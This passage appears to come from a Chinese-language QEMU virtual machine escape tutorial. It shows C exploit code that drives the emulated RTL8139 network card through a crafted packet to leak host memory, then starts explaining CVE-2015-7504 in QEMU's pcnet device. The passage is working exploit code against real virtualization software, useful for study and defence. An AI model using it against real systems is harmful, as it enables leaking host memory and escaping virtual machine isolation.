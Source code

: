 ```
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd &lt; 0) `{`
        perror("open");
    `}`

  /*为描述符分配空间（这里使用aligned_alloc是为了起始地址对齐）*/
    rtl8139_rx_ring = (struct rtl8139_ring *)aligned_alloc(
        PAGE_SIZE, rtl8139_rx_nb * sizeof(struct rtl8139_ring));

    rtl8139_rx_desc = (struct rtl8139_desc *)aligned_alloc(
        PAGE_SIZE, rtl8139_rx_nb * sizeof(struct rtl8139_desc));

    rtl8139_tx_desc = (struct rtl8139_desc *)aligned_alloc(
        PAGE_SIZE, sizeof(struct rtl8139_desc));

    void* rtl8139_tx_buffer = aligned_alloc(PAGE_SIZE, RTL8139_BUFFER_SIZE);

  //使用iopl打开IO读写权限
    iopl(3);
    //按照之前的分析配置参数
    rtl8139_desc_config_rx(rtl8139_rx_ring, rtl8139_rx_desc, rtl8139_rx_nb);
    rtl8139_desc_config_tx(rtl8139_tx_desc, rtl8139_tx_buffer);
    rtl8139_card_config();
  //发送网络帧
    rtl8139_packet_send(rtl8139_tx_buffer, rtl8139_packet, sizeof(rtl8139_packet));

    sleep(2);

    //读取网卡缓冲区内容，泄露内存信息
    for (size_t i = 0; i &lt; rtl8139_rx_nb; ++i) 
    `{`
        leak_data((uint8_t*)rtl8139_rx_ring[i].buffer, RTL8139_BUFFER_SIZE);
    `}`
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0176053c4825c9b3d3.png)



## CVE-2015-7504

cve-2015-7504漏洞存在于**hw/net/pcnet.c**的**pcnet_receive()**函数中,漏洞出现在对于数据包的crc校验计算中。

**pcnet网卡**

网卡有16位（默认）和32位两种模式，这取决于DWIO（存储在网卡上的变量）的实际值，16位模式是网卡重启后的默认模式。网卡有两种内部寄存器：CSR（控制和状态寄存器）和BCR（总线控制寄存器）。两种寄存器都需要通过设置对应的我们要访问的RAP（寄存器地址端口）寄存器来实现对相应CSR或BCR寄存器的访问。

**pcnet_receive函数**
